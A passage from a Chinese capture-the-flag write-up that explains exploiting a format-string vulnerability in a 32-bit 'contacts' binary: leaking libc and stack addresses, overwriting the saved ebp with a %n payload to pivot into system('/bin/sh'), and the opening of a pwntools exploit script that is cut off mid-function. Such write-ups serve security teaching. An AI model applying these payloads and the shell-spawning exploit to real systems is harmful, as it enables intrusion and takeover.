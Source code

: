 我们可以通过简单的判断可以得到

```
0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
```

存储的就是main相应的地址，同时利用fmtarg来获取对应的偏移，可以看出其偏移为32，那么相对于格式化字符串的偏移为31。

```shell
gef➤  fmtarg 0xffffcd7c
The index of format argument : 32
```

这样我们便可以得到对应的地址了。进而可以根据libc-database来获取对应的libc，继而获取system函数地址与/bin/sh函数地址了。

其次，我们可以确定栈上存储格式化字符串的地址0xffffcd2c相对于格式化字符串的偏移为6，得到这个是为了构造我们的联系人。

再者，我们可以看出下面的地址保存着上层函数的调用地址，其相对于格式化字符串的偏移为11，这样我们可以直接修改上层函数存储的ebp的值。

```shell
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000	 ← $ebp
```

#### 构造联系人获取堆地址

得知上面的信息后，我们可以利用下面的方式获取堆地址与相应的ebp地址。

```text
[system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]
```

来获取对应的相应的地址。后面的bbbb是为了接受字符串方便。

这里因为函数调用时所申请的栈空间与释放的空间是一致的，所以我们得到的ebp地址并不会因为我们再次调用而改变。

#### 修改ebp

由于我们需要执行move指令将ebp赋给esp，并还需要执行pop ebp才会执行ret指令，所以我们需要将ebp修改为存储system地址-4的值。这样pop ebp之后，esp恰好指向保存system的地址，这时在执行ret指令即可执行system函数。

上面已经得知了我们希望修改的ebp值，而也知道了对应的偏移为11，所以我们可以构造如下的payload来进行修改相应的值。

```
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
```

#### 获取shell

这时，执行完格式化字符串函数之后，退出到上上函数，我们输入5，退出程序即会执行ret指令，就可以获取shell。

#### 利用程序

```python
from pwn import *
from LibcSearcher import *
contact = ELF('./contacts')
##context.log_level = 'debug'
if args['REMOTE']:
    sh = remote(11, 111)
else:
    sh = process('./contacts')


def createcontact(name, phone, descrip_len, description):
    sh.recvuntil('>>> ')
    sh.sendline('1')
    sh.recvuntil('Contact info: \n')
    sh.recvuntil('Name: ')
    sh.sendline(name)
    sh.recvuntil('You have 10 numbers\n')
    sh.sendline(phone)
```